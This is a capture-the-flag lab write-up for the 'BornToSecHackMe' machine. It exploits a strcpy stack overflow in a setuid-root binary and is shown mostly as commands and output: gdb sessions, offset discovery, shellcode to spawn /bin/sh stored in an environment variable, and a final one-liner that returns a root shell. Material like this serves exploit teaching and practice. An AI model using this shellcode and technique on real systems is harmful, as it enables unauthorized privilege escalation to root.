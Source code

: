 # ZAZ

## Analyse

There is a suid root bin in home directory 'exploit_me'.

```bash
zaz@BornToSecHackMe:~$ ls -l
total 5
-rwsr-s--- 1 root zaz 4880 Oct  8  2015 exploit_me
drwxr-x--- 3 zaz  zaz  107 Oct  8  2015 mail
```

The executable use unsafe function strcpy. Strcpy write into static buffer from user argument.

```bash
zaz@BornToSecHackMe:~$ ltrace ./exploit_me TOTO
__libc_start_main(0x80483f4, 2, 0xbffff7e4, 0x8048440, 0x80484b0 <unfinished ...>
strcpy(0xbffff6c0, "TOTO")                                                                                      = 0xbffff6c0
puts("TOTO"TOTO
)                                                                                                    = 5
+++ exited (status 0) +++
```

We can put exploit_me in default by giving it an argument of great length

```bash
zaz@BornToSecHackMe:~$ ./exploit_me BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Segmentation fault (core dumped)
zaz@BornToSecHackMe:~$
```

## Exploit

### With unsafe strcpy we can control save eip, so control the flow execution and spanw a shell

#### 1. find eip with https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/ and gdb

```bash
zaz@BornToSecHackMe:~$ gdb ./exploit_me
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/zaz/exploit_me Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()
(gdb)
```

Save eip is stored in (buffer's address + 140) `[ADDR BUFFER + 140 + SEIP]`

#### 2. Create Shellcode and know where is it

```bash
zaz@BornToSecHackMe:~$ env -i SHELLCODE=$(python -c 'print "\x31\xdb\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc0\xb0\x0b\xcd\x80"') PWD=$PWD gdb -q $PWD/exploit_me

(gdb) show env
SHELLCODE=1�1�1�Qhn/shh//bi��1��
                                 ̀
PWD=/home/zaz
LINES=83
COLUMNS=181
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) show env
SHELLCODE=1�1�1�Qhn/shh//bi��1��
                                 ̀
PWD=/home/zaz
(gdb) start
Temporary breakpoint 1 at 0x80483f7
Starting program: /home/zaz/exploit_me

Temporary breakpoint 1, 0x080483f7 in main ()
(gdb) x/10s *((char **)environ)
0xbfffffb5:     "PWD=/home/zaz"
0xbfffffc3:     "SHELLCODE=1\333\061\322\061\311Qhn/shh//bi\211\343\061\300\260\v\315\200"
0xbfffffe7:     "/home/zaz/exploit_me"
0xbffffffc:     ""
0xbffffffd:     ""
0xbffffffe:     ""
0xbfffffff:     ""
0xc0000000:     <Address 0xc0000000 out of bounds>
0xc0000000:     <Address 0xc0000000 out of bounds>
0xc0000000:     <Address 0xc0000000 out of bounds>
(gdb) quit
A debugging session is active.

    Inferior 1 [process 2379] will be killed.

Quit anyway? (y or n) y
```

#### 3. Exploit exploit_me

```bash
zaz@BornToSecHackMe:~$ env -i SHELLCODE=$(python -c 'print "\x31\xdb\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc0\xb0\x0b\xcd\x80"') PWD=$PWD $PWD/exploit_me $(python -c 'print "\x90" * 140 + "\xbf\xff\xff\xc3"[::-1] ')
������������������������������������������������������������������������������������������������������������������������������������������������
# whoami
root
# :D
```